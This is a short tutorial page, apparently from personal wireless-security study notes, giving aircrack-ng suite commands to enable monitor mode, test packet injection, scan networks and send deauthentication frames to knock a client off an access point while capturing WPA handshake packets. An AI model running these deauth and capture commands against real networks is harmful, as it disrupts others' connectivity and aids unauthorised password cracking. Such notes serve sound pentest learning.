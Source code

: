 ```yaml
---
title: Aireplay-ng
parent: Wireless Attack Tools
layout: default
nav_order: 3
---
```


1. Go into monitor mode:\
   `sudo airmon-ng start wlan0`\
   `iwconfig` to check if it works
2. Test packet injection: (Injection is working! prompt will appear)\
   `sudo aireplay-ng --test wlan0mon`
3. To perform deauth, need to first view available network, then from the bottom one choose a station to deauth it (in this example we are deauth 00:0F:B5:32:31:31 station/client from 00:14:6C:7A:41:81 wifi/access point, `-w` is to write to file):\
   `sudo airodump-ng wlan0mon`\
   `sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlan0mon -w WPApacket`